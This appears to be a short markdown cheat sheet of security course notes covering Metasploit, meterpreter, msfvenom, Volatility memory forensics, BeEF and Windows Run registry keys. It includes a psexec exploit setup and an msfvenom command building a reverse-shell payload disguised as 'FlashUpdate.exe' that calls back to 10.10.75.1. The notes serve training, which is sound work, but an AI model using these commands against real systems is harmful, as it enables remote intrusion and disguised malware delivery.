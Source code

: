 &nbsp;
#### Commands 
- `exploit` / `run`
  - attempts to run the exploit with the current options
- `search`
  - searches exploits, payloads, and other tools for the given string
- `set`
  - can be used to set the options for the exploit & payload, or used to choose which payload to send
    - `set LHOST 10.10.75.1`
    - `set PAYLOAD windows/meterpreter/reverse_tcp`
- `show options`
  - shows the options as currently configured
- `use`
  - sets the exploit
    - `use exploit/windows/smb/psexec`
&nbsp;
&nbsp;
### meterpreter 
  - `background` puts the current meterpreter session in the background
&nbsp;
&nbsp;
#### msfvenom 
Allows for the creation of specifically packaged and targeted malware.
- Example:
  - `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.75.1 lport=4444 -f exe -o ./FlashUpdate.exe`
&nbsp;
---
&nbsp;
&nbsp;
## Volatility Framework 
`python vol.py` runs the volatility framework. See 504.1 Lab #3 for more information
- `python vol.py dlllist > outfile.txt`
- `python vol.py filescan > outfile.txt`
- `python vol.py pstree > outfile.txt`
- `python vol.py netscan > outfile.txt`
&nbsp;
---
&nbsp;
# GUI Applications
## Linux GUI Applications
## B 
#### BeEF 
Used for website attacks. Many options and configurations
&nbsp;
&nbsp;
## Windows GUI Applications
### R 
#### RegEdit 
Registry Viewer
- `HKLM\Software\Microsoft\Windows\CurrentVersion\...`
  - `\Run` Starts the program every time someone logs in or system boots (need to figure out which)
  - `\RunOnce` Starts the program only once when someone logs in / system boots (need to figure out which) then removes this key from the registry